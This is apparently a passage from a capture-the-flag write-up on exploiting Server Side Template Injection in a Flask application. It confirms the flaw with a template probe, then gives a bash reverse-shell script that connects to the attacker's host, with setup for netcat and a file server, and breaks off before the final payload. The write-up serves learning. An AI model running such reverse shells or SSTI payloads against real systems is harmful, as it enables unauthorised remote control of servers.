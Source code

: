 We can change our name to something else here, and since this is the only endpoint where we can actually test, this must be
the one related to Server Side Template Injection vulnerability (SSTI). But what is SSTI? 

SSTI is a vulnerability that occurs when an application allows user-supplied input to be executed as a part of the template rendering process. This can lead to the execution of arbitrary code, potentially leading to server compromise or data leakage.
In the worst case scenario, we could even get a reverse shell, depending on how the server sanitizes the input.

Since we are dealing with a Flask application, we can limit our search scope to Python SSTI. Upon a quick search,
I found [this](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/) aticle about Flask SSTI examples.
In it, we can see that a testable parameter is \{\{2*3\}\} for example. This would render into the number 6. Since changing
your full name in the application results into a template renderization, this is a perfect payload to test it out.

<img src="../figs/ggs11.png" alt="ssti first paylaod">

As we can see, the vulnerability is present. 

## [](#step3-foothold)Step 2 - Getting foothold

According to the article, we can see that one way to create a reverse shell is to
make the server download a bash script from our local machine and execute it. To do so, we will need to create a file with
the following command:

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<our-ip>/<port> 0>&1"
```

Save it under the name of `rev-shell` and then, start our netcat on the same port we typed in the script. Then, 
we need to make sure the server also downloads the `rev-shell` file. To do this, we will also open a Python server
on port 80. After all of that is setup, we send this payload to the server:
